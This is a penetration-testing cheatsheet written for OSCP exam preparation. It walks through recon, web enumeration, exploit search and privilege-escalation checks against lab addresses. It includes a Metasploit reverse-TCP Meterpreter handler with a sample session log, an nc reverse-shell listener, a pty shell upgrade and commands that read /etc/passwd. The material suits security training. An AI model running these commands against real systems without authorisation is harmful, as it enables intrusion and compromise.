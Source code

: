 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Preparation](#preparation)
- [Recon](#recon) 
- [Preparation](#preparation) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FIND VULNS + EXPLOIT CODE

Tools:
```bash
# Nikto webapp scanner:
$ nikto -host 10.11.1.71

# Searchsploit (exploit-db):
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# Nmap Scripting ENgine
$ ls -l /usr/share/nmap/scripts/*service_name*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
# Set up Metasploit Handler (use multi-handler -> set reverse shell payload -> set variables -> run handler)
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set EXITFUNC thread
$ msf exploit(handler) > set LHOST 10.11.0.31
$ msf exploit(handler) > set LPORT 443
$ msf exploit(handler) > run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 

# Execute Public Exploit:
$ python exploit.py [ target_ip ]

# Metasploit Handler (meterpreter session -> background the session -> connect back to session)
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 
[*] Sending stage (179267 bytes) to 10.11.1.5
[*] Meterpreter session 0 opened (10.11.0.31:443 -> 10.11.1.5:1199) at 2019-01-07 22:46:33 +1100
meterpreter > help
. . . 
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 0
[*] Starting interaction with 0...
meterpreter >
```

Meterpreter sometimes doesn't work.  
Go back to using `nc -nvlp 80` and trigger reverse shell in vulnerable app/service.


### PRIVILEGE ESCALATION - ENUM

Get a proper shell: https://netsec.ws/?p=337
```bash
# This shell mostly works
python -c 'import pty; pty.spawn("/bin/sh")'
```

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* User RWX permissions enabled on files/directories
* Config.* files
* Custom programs
* SUID / SGID programs
* Cron jobs / scheduled programs or scripts
* Hardcoded credentials -> where are credentials kept?


Privesc Enum:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.





